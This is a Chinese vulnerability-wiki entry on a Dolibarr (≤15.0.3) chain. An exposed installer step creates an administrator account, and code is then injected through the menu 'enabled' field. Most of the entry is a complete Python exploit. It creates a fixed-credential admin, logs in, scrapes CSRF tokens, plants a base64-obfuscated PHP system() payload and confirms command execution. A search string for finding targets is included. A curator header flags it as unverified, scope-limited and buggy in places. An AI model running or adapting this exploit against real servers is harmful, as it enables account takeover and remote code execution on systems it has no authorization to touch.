


# Dolibarr 菜单enabled代码执行并组合安装器建管理员

## 条目说明

- 对象与具体问题：Dolibarr；菜单enabled代码执行并组合安装器建管理员
- 版本、配置及部署条件：≤15.0.3声明；installer可用及后台菜单权
- 认证与权限前提：后台RCE；前置安装器未锁定条件未列
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 把install/step5建管理员与菜单漏洞合称CVE，需分别确认归属和条件
- 脚本and/or优先级可在res=None时取res.text；history[0]可空；随机菜单持久写入无清理
- 缺修复版本/根因及installer防护条件，不能推出所有实例匿名RCE

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Dolibarr edit.php 存在远程命令执行漏洞，攻击者通过逻辑漏洞创建管理员后可以通过后台漏洞获取服务器权限

### 漏洞影响

```
Dolibarr <= 15.0.3
```

### 网络测绘

```
"Dolibarr"
```

### 漏洞复现

登录页面




利用POC 创建用户进行命令执行




### 漏洞POC

```python
import requests
from requests.packages import urllib3
import time
import random
import sys
import re


sess = requests.Session()
pcre = re.compile(r'name=\"token\"\s+value=\"([^>]+)\"\s*[/]*>')
def request(method, url, headers=None, data=None, proxies=None, timeout=30):
    i = 1
    urllib3.disable_warnings()
    resp = None
    proxies = proxies
    while i <= 3:
        try:
            resp = sess.request(method=method, url=url, headers=headers,
                                    data=data, proxies=proxies, timeout=timeout, verify=False)
            break
        except requests.exceptions.TooManyRedirects:
            break
        except requests.exceptions.ConnectionError as e:
            time.sleep(2 + random.randint(1, 4))
        except (requests.exceptions.ConnectTimeout, requests.exceptions.ReadTimeout, requests.exceptions.Timeout):
            time.sleep(2 + random.randint(1, 4))
        finally:
            i += 1
    if i > 3:
        print('[-]Error retrieve with max retries: {}'.format(url))
    return resp

def exp():
    if len(sys.argv) < 2:
        sys.exit('Usage: python3 {} http://xxxxx.com/'.format(sys.argv[0]))
    if sys.argv[1][-1] == '/':
        base = sys.argv[1].rsplit('/', 1)[0]
    else:
        base = sys.argv[1]
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
    }
    #proxies = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
    proxies = None
    res = request('GET', base, headers=headers, proxies=proxies)
    err_flag = 1
    if res:
        print('[*] Attempt to add admin.')
        base = res.url.rsplit('/', 1)[0]
        add_admin_url = '{}/install/step5.php'.format(base)
        data = {
            'action': 'set',
            'login': 'testadmins',
            'pass': 'testadmins',
            'pass_verif': 'testadmins',
            'selectlang': 'auto'
        }
        headers['Content-Type'] = 'application/x-www-form-urlencoded'
        res = request('POST', add_admin_url, headers=headers, data=data, proxies=proxies)
        if res and 'created successfully' in res.text or ('exists' in res.text and 'Email  already exists' not in res.text):
            csrf_token_url = '{}/index.php'.format(base)
            res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
            if res:
                print('[*] Attempt to login.')
                try:
                    csrf_token = pcre.findall(res.text)[0]
                except:
                    csrf_token = ''
                login_url = '{}/index.php?mainmenu=home'.format(base)
                headers['Referer'] = csrf_token_url
                data = {
                    'token':'{}'.format(csrf_token),
                    'actionlogin': 'login',
                    'loginfunction': 'loginfunction',
                    'username': 'testadmins',
                    'password': 'testadmins'
                }
                res = request('POST', login_url, headers=headers, data=data, proxies=proxies)
                if res and res.status_code == 200 and 'logout.php' in res.text:
                    print('[*] Attempt to get csrf token.')
                    csrf_token_url = '{}/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy_menu'.format(base)
                    res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
                    if res:
                        print('[*] Attemp to inset evil data.')
                        try:
                            csrf_token = pcre.findall(res.text)[0]
                        except:
                            csrf_token = ''
                        inset_evil_url = '{}/admin/menus/edit.php'.format(base)
                        data = {
                            'token': '{}'.format(csrf_token),
                            'action': 'add',
                            'menuId': random.randint(10000, 99999),
                            'menu_handler': 'eldy_menu',
                            'user': 2,
                            'type': 1,
                            'titre': 1,
                            'url': 1,
                            'enabled': "1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//" #execute id command，bypass core/lib/function.lib.php limits
                        }
                        res = request('POST', inset_evil_url, headers=headers, data=data, proxies=proxies)
                        if res and res.history[0].status_code == 302:
                            print('[*] Attemp to execute command.')
                            request('GET', '{}/admin/menus/index.php'.format(base), headers=headers, proxies=proxies)
                            time.sleep(3)
                            evil_url = '{}/admin/index.php'.format(base)
                            res = request('GET', evil_url, headers=headers, proxies=proxies)
                            if res and res.status_code == 200 and 'pwned!!!' in res.text:
                                print(res.text[:100])
                                print('[+] vulnrable! {}'.format(base))
                                err_flag = 0
                    
    if err_flag:
        print('[-] {} is not exploitable.'.format(sys.argv[1]))

exp()
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
